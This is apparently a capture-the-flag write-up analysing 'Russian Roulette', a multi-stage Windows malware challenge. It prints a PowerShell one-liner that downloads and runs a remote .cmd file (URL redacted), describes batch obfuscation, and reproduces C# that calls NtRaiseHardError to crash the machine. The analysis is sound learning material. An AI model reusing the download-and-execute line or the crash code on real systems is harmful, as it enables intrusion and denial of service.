

> Author: @JohnHammond
>
> My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
>
> WARNING: Please examine this challenge inside of a virtual machine for your own security. Upon invocation there is a real possibility that your VM may crash.
>
> NOTE: Archive password is russian_roulette

This was fun. It reminded me of the days I spent binge watching John Hammond's [malware analysis videos](https://www.youtube.com/playlist?list=PL1H1sBF1VAKWMn_3QPddayIypbbITTGZv). The static analysis was very very lengthy, but very very fun and rewarding!

## step 1: lnk file
Running on linux, I could not open the lnk file. I ran `strings` on the lnk file, and got nothing. Then I realised windows uses long string encodings, or 16-bit UTF little endian. When viewing with `hexdump -C` you can see the strings broken with a dot in between - since the hexdump is showing 8-bit by 8-bit. Running `strings -el` for long encoding yields this:

```
powershell.exe
?......WindowsSystem32WindowsPowerShellv1.0powershell.exe
C:Windowssystem32
-e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
```

So:

1. Powershell is being invoked
2. There is a base64 encoded string

Decoding the base64 string gives (URL redacted):

```
iwr is.gd/<REDACTED> -o $env:TMP/.cmd;& $env:TMP/.cmd
```

There's a few things happening:

1. `iwr` is the Powershell 'curl', invoking a web request from the URL `is.gd/<REDACTED>`
2. It is saved it into a temporary `cmd` file.
3. This CMD file is then executed (with the `&` ampersand shorthand alias).

## step 2: getting the remote file
So we found there is a remote file being fetched. I try to `curl` it but there is a HTTP302 error. I could have just enabled the redirections flag in curl, but I got lazy and did what any sane person would do - just paste the URL into my web browser.

A file downloads, which i believe is the next stage of this malware.

## step 3: decipher this CMD file
If you try to view this file, this happens:



Now, I speak Mandarin, and can read Korean, but this is garbage as far as I can tell. Pushing this into ghidra crashes my computer (This happens again in [[OceanLocust]]). Oh no.

However, I found this by mistake. If you run `head` you get this instead:

```sh
&cls
@echo off
set ucbw=set
:: Путешествия в воображении, как и путешествия в реальности, могут привести к удивительным открытиям и незабываемым встречам с персонажами, которые живут на грани воображаемого и реального.
%ucbw% qmy=
:: Песнь птиц, запутавшаяся в ветвях деревьев, как древний гимн жизни, разносится по лесу, наполняя его радостью и напоминая о том, что природа всегда была и будет в движении.
%ucbw%%qmy%jxaa==
:: Чудеса происходят тогда, когда мироздание вдруг решает повернуть ход истории в неожиданных направлениях, создавая прекрасные узоры на полотне жизни.
%ucbw%%qmy%ccdn%jxaa%/
:: Песнь птиц, запутавшаяся в ветвях деревьев, как древний гимн жизни, разносится по лесу, наполняя его радостью и напоминая о том, что природа всегда была и будет в движении.
```

I don't speak Russian but:

1. This confirms the *Russian* part of this quest
2. This is a batch (CMD) file
3. Where did the Chinese characters come from?

Running hexdump reveals something:

```
00000000  ff fe 26 63 6c 73 0d 0a  40 65 63 68 6f 20 6f 66  |..&cls..@echo of|
00000010  66 0d 0a 73 65 74 20 75  63 62 77 3d 73 65 74 0d  |f..set ucbw=set.|
00000020  0a 3a 3a 20 d0 9f d1 83  d1 82 d0 b5 d1 88 d0 b5  |.:: ............|
00000030  d1 81 d1 82 d0 b2 d0 b8  d1 8f 20 d0 b2 20 d0 b2  |.......... .. ..|
```

When I ran cat, the encoding was *UTF-16 LE* but looking at the hex dump it was 8-bit ascii. Even `file` says `Unicode text, UTF-16, little-endian text`. The first 2 bytes is why. `FF FE` is the **BOM encoding for UTF-16 LE**. That is why. `head` and `cmd` only interprets 8-bit ASCII, so by _incorrectly_ interpreting the file, they actually read the correct file.

Running `dd bs=1 skip=2` skips the first 2 bytes, and now the file renders correctly.

## step 4: undo the obfuscation

The file is full of rewriting commands with single characters denoted by variables. After this I will omit the Russian text, but at the end of this segment I will include a snippet of the code.

```sh
&cls
@echo off
set ucbw=set
:: Путешествия в воображении, как и путешествия в реальности, могут привести к удивительным открытиям и незабываемым встречам с персонажами, которые живут на грани воображаемого и реального.
set qmy=
:: Песнь птиц, запутавшаяся в ветвях деревьев, как древний гимн жизни, разносится по лесу, наполняя его радостью и напоминая о том, что природа всегда была и будет в движении.
set jxaa==
:: Чудеса происходят тогда, когда мироздание вдруг решает повернуть ход истории в неожиданных направлениях, создавая прекрасные узоры на полотне жизни.
set ccdn=/
```

This is tedious, but it is solvable with a little `sed`. Firstly convert the `set ([a-z]*)=(.)` to `s/%$1%/$2/g` since windows CMD uses `%var%` to substitute variables. Then using `sed`'s `-f` flag to use a file for commands, unobfuscate the file.


Further down, there's this too:
```sh
set /a rtoy=9161456 %% 9161359
:: Теплый ветер приносит с собой запахи далёких стран, где культура смешивается с историей, а каждый камень на мостовой хранит в себе тайны веков.
cmd /c exit %rtoy%
:: Никто не знает, почему луна светит так ярко, и почему звезды, словно рассыпанные бисеринки, освещают путь к неизведанным уголкам вселенной.
set ztq=%=exitcodeAscii%
:: Поле битвы меняет свои очертания с каждым шагом, словно его границы никогда не были определены, а правила игры пишутся на ходу великими тактиками прошлого и будущего.
set /a ltjf=7630868 %% 7630770
:: Древние тексты, вырезанные на каменных плитах, рассказывают истории забытых королей и воинов, которые жили и умирали ради идей, оставив след в самой ткани мироздания.
cmd /c exit %ltjf%
:: Часы тикают, как неумолимые маркеры времени, напоминая, что каждое мгновение — это шанс изменить свою судьбу и оставить свой след на страницах истории.
set fqhx=%=exitcodeAscii%
:: Искусство танца — это не просто движение, это история, рассказанная телом, это эмоции, переданные без слов, это путешествие души в ритме музыки и гармонии.
```

A few things are happening:

1. a random variable is set with the result (`/a`) of the following modulo statement (`X %% Y`)
2. using `cmd /c` an arbitrary command (`exit X`) is run that exits with the exit value of the previously calculated variable
3. another new random variable is set with the exit value, using the read-only variable `%=exitcodeAscii%`. This gets the ascii character of the exit value.

This is such a crazy way to convert integers into ascii characters! A lot of vim macros (the `=` register can compute the modulo), and some `sed`s later, we get another base64 code that is interpreted by Powershell.

## step 5: Final payload

Decoding the base64 yields another base64 code, which again deciphered gives a rather interesting embedded **C#** code in a Powershell script. It is in UTF-16LE, so a bit of tidying up has to be done.

```powershell
$c=New-Object System.CodeDom.Compiler.CompilerParameters
$c.CompilerOptions='/unsafe'
$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c

if((Get-Random -Min 1 -Max 7) -eq 1) {
[X]::Shot()
}
Start-Process "powershell.exe"
```

Here we see the **Roulette** part of the task. The C# code, in the string `$s`, is compiled and loaded. There is a one-in-seven chance of running the code, else the if-block is skipped and a normal Powershell is executed.

The C# segment is as followed:

```cs
using System
using System.Text
using System.Security.Cryptography
using System.Runtime.InteropServices
using System.IO
public class X
{
[DllImport("ntdll.dll")]
public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o)

[DllImport("ntdll.dll")]
public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r)

public static unsafe string Shot()
{
bool o
uint r
RtlAdjustPrivilege(19,true,false,out o)
NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r)
byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw")
byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=")
byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==")
using(Aes a=Aes.Create())
{
a.Key=k
a.IV=i
ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV)
using(var m=new MemoryStream(c))
using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))
using(var s=new StreamReader(y))
{
return s.ReadToEnd()
}
}
}
}
```

There is the `NtRaiseHardError` which presumably crashes the computer by causing an BSOD. Anyways, the important part is here:

```cs
byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw")
byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=")
byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==")
using(Aes a=Aes.Create())
{
a.Key=k
a.IV=i
ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV)
using(var m=new MemoryStream(c))
using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))
using(var s=new StreamReader(y))
{
return s.ReadToEnd()
}
}
```

Slapping this into an online C# compiler and printing the return value yields the flag. Yay.

## Russian Text
If you're interested, I have included the [russian text here](https://gist.github.com/yadobler/d4fd9f91caba501af824353c3ca50af3).

